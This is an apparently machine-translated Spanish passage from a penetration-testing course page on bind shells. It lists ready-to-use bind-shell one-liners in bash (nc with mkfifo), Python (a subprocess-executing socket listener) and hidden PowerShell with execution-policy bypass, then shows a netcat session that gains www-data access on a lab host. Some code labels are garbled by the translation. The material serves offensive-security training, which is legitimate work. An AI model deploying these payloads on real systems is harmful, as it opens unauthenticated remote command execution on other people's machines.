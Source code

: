 #### Comando BIND de shell

Una vez más, podemos utilizar[Carga útil todas las cosas](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-bind-cheatsheet/)Para encontrar un comando adecuado para iniciar nuestro shell de enlace.

Nota: Iniciaremos una conexión de escucha en el puerto '1234' en el host remoto, con IP '0.0.0.0' para que podamos conectarnos desde cualquier lugar.

Los siguientes son comandos confiables que podemos usar para iniciar un shell de enlace:

Código:intento

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

Código:pitón

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

Código:powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

---

#### Conexión NetCat

Una vez que ejecutamos el comando Bind Shell, debemos tener un shell esperándonos en el puerto especificado. Ahora podemos conectarnos a él.

Podemos usar`netcat`para conectarse a ese puerto y obtener una conexión al shell:

  Tipos de conchas

```shell-session
xnoxos@htb[/htb]$ nc 10.10.10.1 1234

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Como podemos ver, estamos directamente dejados en una sesión de Bash y podemos interactuar directamente con el sistema de destino. A diferencia de`Reverse Shell`, Si dejamos caer nuestra conexión a un shell de enlace por cualquier motivo, podemos conectarnos nuevamente y obtener otra conexión de inmediato. Sin embargo, si el comando Bind Shell se detiene por algún motivo, o si se reinicia el host remoto, aún perderíamos nuestro acceso al host remoto y tendremos que explotarlo nuevamente para obtener acceso.

---